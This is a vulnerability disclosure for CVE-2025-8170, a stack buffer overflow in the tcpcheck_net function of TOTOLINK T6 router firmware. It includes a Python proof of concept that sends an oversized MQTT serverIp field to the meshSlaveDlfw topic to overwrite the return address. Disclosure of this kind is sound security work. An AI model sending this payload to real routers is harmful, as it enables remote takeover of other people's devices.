


# [CVE-2025-8170](https://vuldb.com/?id.317584)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in shared library that lead to RCE.

# Vulnerability details

The `T6` routers has many shared library that will be loaded in memory when running. In function `tcpcheck_net`, the `v7` buffer is 128 bytes, and the `sprintf` doesn't check for the length of input.



An attacker can send a malicious packet (both `MQTT` and `HTTP`) and overwrite the saved return address, lead it to RCE.



# POC

In this POC, I use the chain: `meshSlaveDlfw` -> `safe_cs_pub` -> `tcpcheck_net`.

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0xa0 - 31 - 8) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "serverIp":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/meshSlaveDlfw", mqtt_data)
```